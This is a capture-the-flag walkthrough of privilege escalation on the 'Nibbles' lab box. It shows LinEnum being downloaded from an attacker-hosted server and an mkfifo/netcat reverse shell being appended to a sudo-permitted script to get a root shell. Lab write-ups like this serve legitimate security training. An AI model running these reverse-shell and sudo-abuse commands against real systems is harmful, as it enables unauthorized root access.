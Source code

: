 # Nibbles - Privilege Escalation

## Steps to Escalate Privileges

1. **Analyzing `personal.zip`:**
   - Unzipped file contained a directory and a script `monitor.sh`.
   - Script was writeable by the `nibbler` user.

2. **Initial Content of `monitor.sh`:**
   - A monitoring script with no immediately useful functionality for privilege escalation.

3. **Automated Enumeration with LinEnum.sh:**
   - Downloaded `LinEnum.sh` via Python HTTP server and ran it on the target:
     ```bash
     wget http://<ATTACKER_IP>:8080/LinEnum.sh
     chmod +x LinEnum.sh
     ./LinEnum.sh
     ```
   - Output revealed sudo privileges for `nibbler`:
     ```
     User nibbler may run the following commands on Nibbles:
         (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
     ```

4. **Privilege Escalation Exploit:**
   - Appended a reverse shell one-liner to `monitor.sh`:
     ```bash
     echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <LISTENING_PORT> >/tmp/f' | tee -a monitor.sh
     ```
   - Ensured the original content of the file was not overwritten to avoid disruption.
   - Executed the script with sudo:
     ```bash
     sudo /home/nibbler/personal/stuff/monitor.sh
     ```

5. **Catching the Reverse Shell as Root:**
   - Started a Netcat listener to catch the root shell:
     ```bash
     nc -lvnp 8443
     ```
   - Verified root access:
     ```
     # id
     uid=0(root) gid=0(root) groups=0(root)
     ```

6. **Post-Exploitation:**
   - Obtained the `root.txt` flag from the root directory.

## Key Learnings
1. Writeable scripts owned by the current user can be leveraged for privilege escalation when sudo permissions are available.
2. Automated tools like LinEnum help identify privilege escalation vectors quickly.
3. Always append to existing files carefully to avoid overwriting original content.

## Final Notes
- This walkthrough is one possible method for solving the box.
- Try replicating steps using different tools to expand your skillset.
- Keep detailed notes to practice the essential skill of documentation.

---

# Questions (notes)
When using `wget` we use the ip address in the *tun0*, so it's:
`wget http://tun0:8080/LinEnum.sh`